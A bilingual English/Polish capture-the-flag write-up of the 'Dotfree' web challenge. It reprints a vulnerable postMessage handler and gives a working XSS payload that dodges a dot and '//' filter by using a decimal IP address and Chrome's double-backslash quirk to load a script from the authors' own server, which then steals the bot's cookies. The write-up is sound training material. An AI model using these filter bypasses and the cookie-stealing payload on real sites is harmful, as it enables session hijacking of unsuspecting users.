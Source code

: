 # Dotfree (web, 48 solved, 105p)

```
All the IP addresses and domain names have dots, but can you hack without dot?

http://13.57.104.34/

```
[PL](#pl)

In this simple challenge we can see a form with one field for URL, suggesting the XSS attack. A quick glance at the source code:
```javascript
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
    // ...
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
```

So appending the following JSON to the URL:
```
?{"iframe":{"value":"something"}}
```
will load and execute the script from the URL provided. We'd like to load the script from controlled server, but first we need to bypass some banned characters: dot (`.`), double slash (`//`) and unicode dot (`。`)

We can bypass the first one by putting our ip address in decimal form:
```
sasza.net -> 77.55.217.56 -> 1295505720
```
The next problem is to make browser load the script from remote server without using `http://` prefix. That one we can bypass using one of chrome features (as we believe that's the browser the bot is using) - putting double backslash as a URL prefix will be replaced with current schema - in this case `http://`. What's worth to mention, it works like this only on linux. In windows version of chrome `\\` is replaced with `file://`

Final payload:
```
http://13.57.104.34/?{"iframe":{"value":"\\\\1295505720"}}
```
will load and exec code hosted in our server. Now we just need to write a simple script to steal cookies and we get the flag:
```
rwctf{L00kI5TheFlo9}
```

The unicode dot on the list of blacklisted characters is something worth to mention. It's the protection against abusing another chrome's feature that's good to know - in URLs it's treated just like a plain ASCII dot, what has been used in simplexss challenge in 0CTF 2017 quals.
# PL

W tym prostym i przyjemnym zadanku dostajemy formularz przyjmujący od nas URL-a - co sugeruje konieczność znalezienia XSS-a. Szybki rzut oka na źródła:
```javascript
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
    // ...
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
```

Wynika z tego, że doklejenie JSON-a formatu:
```
?{"iframe":{"value":"something"}}
```
do adresu spowoduje załadowanie i wykonanie skryptu z podanego URL-a. Chcielibyśmy w tym momencie załadować skrypt z kontrolowanego przez nas serwera, jednak przeszkodą są tu filtry na niedozwolone znaki: kropkę (`.`), podwójny slash (`//`) i unicodową kropkę (`。`).

Filtr na kropkę ominiemy podając adres naszego serwera w postaci decymalnej:
```
sasza.net -> 77.55.217.56 -> 1295505720
```
Kolejnym problemem jest zmuszenie przeglądarki, żeby załadowała skrypt ze zdalnego serwera bez możliwości użycia prefiksu `http://`. Ten filter omijamy wykorzystując pewną własność przeglądarki chrome (którą, miejmy nadzieję, wykorzystuje bot) - podanie dwóch backslashy na początku URL-a zostanie podmienione na obecny scheme - w tym przypadku `http://`. Co ciekawe, dzieje się tak tylko pod linuksem - w windowsowej wersji `\\` zostanie zmienione na `file://`.

Ostateczny payload:
```
http://13.57.104.34/?{"iframe":{"value":"\\\\1295505720"}}
```
spowoduje załadowanie i wykonanie kodu hostowanego na naszym serwerze. Teraz wystarczy napisać prosty skrypt kradnący ciastka i dostajemy flagę:
```
rwctf{L00kI5TheFlo9}
```

Warto zwrócić uwagę na obecność unicode'owej kropki na liście zabronionych znaków. Jest to zabezpieczenie przed wykorzystaniem kolejnej cechy chrome'a, którą warto znać - w przypadku URL-i taki znak zostanie zinterpretowany jako zwykła kropka, co zostało wykorzystane w zadaniu simplexss z kwalifikacji 0CTF 2017.

